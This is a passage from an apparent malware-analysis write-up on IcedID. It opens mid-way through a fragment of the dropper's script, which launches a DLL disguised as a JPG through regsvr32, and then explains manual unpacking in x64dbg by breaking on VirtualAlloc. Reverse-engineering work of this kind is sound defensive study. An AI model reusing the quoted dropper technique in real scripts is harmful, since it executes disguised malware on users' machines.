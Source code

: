 ```vbscript
		youLikeLike.close;
	}
}

=======================
    
var Active_wscript = new ActiveXObject("wscript.shell");
var likeLike = new ActiveXObject("scripting.filesystemobject");
Active_wscript.run("regsvr32 c:\\users\\public\\youYou.jpg");

```

# First Stage 

The main purpose of this stage is to drop the payload and it could be a real malware or another dropper. This process depends on the malware developer and what he wants.

Let's start the analysis with our dropped DLL payload. Dropped file is packed. I tried to upload it to automatic unpacker [umpac.me](https://www.unpac.me/) but it doesn't support x64 binaries. Let's unpack in manually with **x64dbg**. 

The unpacking process is really simple. It allocates memory for the unpacked code using `VirtualAlloc()`. So we just set a breakpoint at `VirtualAlloc()` and run the debugger twice, then dump the file from memory.

[![](/assets/images/malware-analysis/IcedID/VirtualAlloc.png)](/assets/images/malware-analysis/IcedID/VirtualAlloc.png)
